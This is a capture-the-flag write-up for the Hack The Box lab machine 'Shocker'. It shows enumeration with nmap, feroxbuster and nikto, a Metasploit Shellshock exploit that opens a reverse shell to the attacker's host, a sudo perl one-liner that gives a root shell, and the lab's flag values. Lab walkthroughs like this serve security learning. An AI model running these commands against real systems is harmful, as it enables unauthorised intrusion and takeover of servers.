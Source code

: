 # Shocker - Easy

```shell
nmap -T4 -p- -A -Pn -v 10.10.10.56

feroxbuster -u http://10.10.10.56 -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip,cgi --extract-links --scan-limit 2

nikto -h 10.10.10.56

feroxbuster -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip,cgi,sh,pl,aspx,sql,xml --extract-links --scan-limit 2 --filter-status 401,404,405,500
#scan for scripts in /cgi-bin
#we get user.sh

#checking for shellshock
nmap -p 80 --script=http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.56
#vulnerable

#for shellshock exploit
msfconsole -q

use exploit/multi/http/apache_mod_cgi_bash_env_exec

options

set LHOST 10.10.14.2

set RHOSTS 10.10.10.56

set TARGETURI /cgi-bin/user.sh

set payload linux/x86/shell/reverse_tcp

run
#we get shell

python3 -c 'import pty;pty.spawn("/bin/bash")'

sudo -l
#we can run perl as sudo without password

#exploit from GTFObins
sudo /usr/bin/perl -e 'exec "/bin/sh";'
#gives root shell
```

* Open ports & services:

  * 80 - http - Apache httpd 2.4.18 (Ubuntu)
  * 2222 - ssh - OpenSSH 7.2p2

* Enumerating the webpage on port 80 for hidden directories while exploring the webpage gives us an image file - we can check for clues using stego tools, but we do not get anything.

* Using ```feroxbuster```, we get a /cgi-bin directory with status code 403.

* This directory indicates the presence of scripts - we can search for exploits related to /cgi-bin.

* Searching for 'cgi-bin' gives us results for exploit 'Shellshock'; we can meanwhile continue enumerating in /cgi-bin directory for any scripts.

* For scripts, we have to take into consideration extensions such as .cgi, .pl, .sh, .php, etc.

* Scanning using ```feroxbuster``` gives us user.sh in /cgi-bin

* We can confirm if the machine is vulnerable to 'Shellshock' exploit using ```nmap``` - it shows vulnerable.

* Now, we can run the Shellshock exploit using ```Metasploit``` and get shell.

* We get shell as 'shelly' - we can check for privesc now.

* Using ```sudo -l```, we can see that 'perl' can be run as root without password.

* With the help of GTFObins, we can get and execute the exploit to get root shell.

```markdown
1. User flag - ce85fbe9f3807245238b4c348249c228

2. Root flag - 59fc655858117c7cb1c9137bd759c2b3
```

